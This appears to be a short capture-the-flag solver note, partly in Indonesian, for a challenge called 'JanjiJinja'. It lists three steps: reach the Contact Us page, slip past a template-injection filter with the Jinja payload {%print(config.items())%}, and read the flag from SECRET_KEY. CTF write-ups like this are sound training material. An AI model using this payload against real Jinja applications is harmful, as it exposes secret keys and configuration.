 # Solver JanjiJinja 

```
1. Go to Contact Us
2. Bypass SSTI WAF with {%print(config.items())%}
3. Flag ada di SECRET_KEY
```